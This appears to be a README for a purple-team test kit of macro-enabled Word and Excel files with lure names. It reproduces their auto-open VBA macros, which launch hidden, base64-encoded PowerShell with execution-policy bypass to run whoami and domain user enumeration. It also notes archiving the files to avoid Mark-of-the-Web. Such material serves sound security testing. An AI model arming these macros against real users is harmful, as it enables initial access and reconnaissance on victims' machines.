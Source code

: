 # Office Macro enabled Documents

**NOTE:** Other file formats (zip, 7z and img) file have been added hear as archived in order to prevent MOTW being applied to the original document files.

## performance_eval_2025.doc

The following macro will execute on document open:

**Encoded Command:**
```powershell
mkdir C:\temp;whoami /all > C:\temp\word_macro_output.txt
```

**VBA Macro:**
```VBA
Private Sub format_document()
MsgBox "Purple Team Test - check 'C:\temp\word_macro_output.txt'", vbOKOnly, "Ok"
  a = Shell("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -exec bypass -enc bQBrAGQAaQByACAAQwA6AFwAdABlAG0AcAA7AHcAaABvAGEAbQBpACAALwBhAGwAbAAgAD4AIABDADoAXAB0AGUAbQBwAFwAdwBvAHIAZABfAG0AYQBjAHIAbwBfAG8AdQB0AHAAdQB0AC4AdAB4AHQA", vbHide)

End Sub
Sub Document_Open()
    format_document
End Sub
Sub AutoOpen()
    format_document
End Sub

```

## budget_surplus_fy25.xls

The following macro will execute on workbook open:

**Encoded Command:**
```powershell
mkdir C:\temp;cmd.exe /c "net user /domain > C:\temp\excel_macro_output.txt"
```

**VBA Macro:**
```VBA
Sub format_workbook()
MsgBox "Purple Team Test - check: 'C:\temp\excel_macro_output.txt'", vbOKOnly, "Ok"
  a = Shell("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -exec bypass -enc bQBrAGQAaQByACAAQwA6AFwAdABlAG0AcAA7AGMAbQBkAC4AZQB4AGUAIAAvAGMAIAAiAG4AZQB0ACAAdQBzAGUAcgAgAC8AZABvAG0AYQBpAG4AIAA+ACAAQwA6AFwAdABlAG0AcABcAGUAeABjAGUAbABfAG0AYQBjAHIAbwBfAG8AdQB0AHAAdQB0AC4AdAB4AHQAIgA=", vbHide)

End Sub
Private Sub Workbook_Open()
    format_workbook
End Sub
Private Sub AutoOpen()
    format_workbook
End Sub
```
